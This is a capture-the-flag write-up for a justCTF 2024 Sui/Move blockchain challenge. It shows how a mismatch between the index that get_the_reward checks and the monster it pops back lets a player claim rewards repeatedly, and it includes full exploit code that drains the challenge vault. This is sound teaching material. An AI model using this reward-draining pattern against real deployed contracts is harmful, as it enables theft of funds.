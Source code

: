 # Dark BrOTTERhood

This challenge was the `Medium` one of three blockchain challenges at `justCTF 2024 teaser`. All challenges were related to the `Sui` blockchain with the challenges being written in `Move`.

## Challenge Description
```
In the shadowed corners of the Dark Brotterhood's secrets, lies a tavern where valiant Otters barter for swords and shields. Here, amidst whispers of hidden bounties, adventurers find the means to battle fearsome monsters for rich rewards. Join this clandestine fellowship, where the blockchain holds mysteries to uncover. Otters of Valor, your destiny calls; may your path be lined with both honor and gold.

Challenge created by embe221ed & Darkstar49 from OtterSec

nc db.nc.jctf.pro 31337
```

We were provided with a download link for a `tar` archive containing the challenge source and a full setup for the server and client.

## Challenge
The goal in this challenge was to `buy the flag` which costs `1337` but we only have `137`.  
This contract was a little game in which a registered user can do the following:
* `buy_flag`
* `buy_sword`
* `find_a_monster`
* `fight_monster`
* `return_home`
* `get_the_reward`

Additionally there were some functions to later prove ownership of the flag.

The player can find monsters and then fight them. In order to be able to successfully fight a monster, the player's power needs to at least be equal to the monster's:
```Rust
public fun find_a_monster(board: &mut QuestBoard, r: &Random, ctx: &mut TxContext) {
    assert!(vector::length(&board.quests) <= QUEST_LIMIT, TOO_MUCH_MONSTERS);

    let mut generator = random::new_generator(r, ctx);

    let quest = Monster {
        fight_status: NEW,
        reward: random::generate_u8_in_range(&mut generator, 13, 37),
        power: random::generate_u8_in_range(&mut generator, 13, 73)
    };

    vector::push_back(&mut board.quests, quest);

}

public fun fight_monster(board: &mut QuestBoard, player: &mut Player, quest_id: u64) {
    let quest = vector::borrow_mut(&mut board.quests, quest_id);
    assert!(quest.fight_status == NEW, WRONG_STATE);
    assert!(player.power > quest.power, BETTER_BRING_A_KNIFE_TO_A_GUNFIGHT);

    player.power = 10; // sword breaks after fighting the monster :c

    quest.fight_status = WON;
}
```

To get more power (the user has 10 in the beginning), the user can `buy_sword` which gives `100` power but costs all `137` coins the user has.
Since the power gets reset back to 10 every time the player fights a monster and the reward is at max 37 coins, we cannot make a profit from this the intended way.

### First approach
I first thought that it might be possible to create my own `board` and just plant defeated monsters on that one.
Unfortunately this was not possible as the user-provided `board` needs to be a `QuestBoard` that was created by the contract itself:
```Rust
public struct QuestBoard has key, store {
    id: UID,
    quests: vector<Monster>,
    players: Table<address, bool>
}
```

### Working approach
After looking at the code a little longer, the `get_the_reward` function looked suspicious:
```Rust
public fun get_the_reward(
    vault: &mut Vault<OTTER>,
    board: &mut QuestBoard,
    player: &mut Player,
    quest_id: u64,
    ctx: &mut TxContext,
) {
    let quest_to_claim = vector::borrow_mut(&mut board.quests, quest_id);
    assert!(quest_to_claim.fight_status == FINISHED, WRONG_STATE);

    let monster = vector::pop_back(&mut board.quests);

    let Monster {
        fight_status: _,
        reward: reward,
        power: _
    } = monster;

    let coins = coin::split(&mut vault.cash, (reward as u64), ctx); 
    coin::join(&mut player.coins, coins);
}
```
Here the `quest_id` is a user-provided number, indicating which quest we want to claim. It also checks that the quest's status is `FINSIHED` indicating that hte monster was beat and the player returned home. The bug is present in the line afterwards. The monster to get the reward from is not taken based on the `quest_id` but popped back from the board's quests.
This means that if we provide any index other than the last, the check for the `fight_status` is not done on the quest we are claiming.
With this discrepancy we can now do the following:
* buy a sword
* find multiple monsters (limit is 25)
* fight the 0th monster
* return home
* call `get_the_reward` multiple times always with index 0
* profit
  
## Exploit
```Rust
module solve::solve {

    // [*] Import dependencies
    use challenge::Otter::{Self, OTTER};
    use sui::random::Random;

    #[allow(lint(public_random))]
    public fun solve(
        _vault: &mut Otter::Vault<OTTER>,
        _questboard: &mut Otter::QuestBoard,
        _player: &mut Otter::Player,
        _r: &Random,
        _ctx: &mut TxContext,
    ) {
        // Your code here ...

        Otter::buy_sword(_vault, _player, _ctx);

        let mut i = 0;
        let mut j = 0;
        let mut y = 0;
        Otter::find_a_monster(_questboard, _r, _ctx);
        Otter::fight_monster(_questboard, _player, 0);
        Otter::return_home(_questboard, 0);

        while (i <= 10) {
            i = i + 1;

            while (j < 10) {
                Otter::find_a_monster(_questboard, _r, _ctx);
                j = j + 1;
            };

            while (y < 10) {
                Otter::get_the_reward(_vault, _questboard, _player, 0, _ctx);
                y = y + 1;
            };
            y = 0;
            j = 0;
        };

        let flag = Otter::buy_flag(_vault, _player, _ctx);
        Otter::prove(_questboard, flag);

        return;
    }
}
```
This exploit is not optimal but we played around and got this to work remotely.  
Now compiling and throwing this at the server yields the flag.
